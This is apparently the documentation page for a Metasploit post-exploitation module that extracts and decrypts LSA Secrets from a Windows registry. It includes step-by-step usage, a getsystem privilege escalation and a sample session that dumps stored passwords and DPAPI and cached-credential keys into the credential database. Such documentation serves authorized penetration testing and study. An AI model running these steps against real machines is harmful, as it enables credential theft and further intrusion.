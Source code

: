 ## Vulnerable Application

This module will attempt to enumerate the LSA Secrets keys within the registry. The registry value used is:
`HKEY_LOCAL_MACHINE\\Security\\Policy\\Secrets\\`.

## Verification Steps

1. Start msfconsole
1. Get a shell on a Windows computer, with `SYSTEM` privs.
1. Do: `use post/windows/gather/lsa_secrets`
1. Do: `set session #`
1. Do: `run`
1. You should get LSA Secrets.

## Options

### STORE

If the decrypted values should be stored in the database. This is a tradeoff since there is no way to tell if a decrypted
value is a legitimate password, thus you may fill your database with bad values. Default is `true`.

## Scenarios

### Windows 10

The `DefaultPassword` in this case is legitimate.

```
msf6 post(windows/gather/lsa_secrets) > run

[*] Executing module against MSEDGEWIN10
[*] Obtaining boot key...
[*] Obtaining Lsa key...
[*] Vista or above system
[-] Could not retrieve LSA key. Are you SYSTEM?
[*] Post module execution completed
msf6 post(windows/gather/lsa_secrets) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 5...
msf6 post(windows/gather/lsa_secrets) > run

[*] Executing module against MSEDGEWIN10
[*] Obtaining boot key...
[*] Obtaining Lsa key...
[*] Vista or above system
[+] Key: CachedDefaultPassword
 Decrypted Value: f+;=

[+] Key: DefaultPassword
 Decrypted Value: Passw0rd!

[+] Key: DPAPI_SYSTEM
 Decrypted Value: ,l^sx+S?Heo75jnC

[+] Key: NL$KM
 Decrypted Value: @r&qS(o)~fuyOvW+6l5aaX8k<1d_E/d

[*] Writing to loot...
[*] Data saved in: /home/h00die/.msf4/loot/20201011171021_default_192.168.2.92_registry.lsa.sec_067749.txt
[*] Post module execution completed
msf6 post(windows/gather/lsa_secrets) > creds
Credentials
===========

host  origin        service  public  private                          realm  private_type  JtR Format
----  ------        -------  ------  -------                          -----  ------------  ----------
      111.111.1.11                   f+;=                                    Password      
      111.111.1.11                   Passw0rd!                               Password      
      111.111.1.11                   ,l^sx+S?Heo75jnC                        Password      
      111.111.1.11                   @r&qS(o)~fuyOvW+6l5aaX8k<1d_E/d         Password  
```
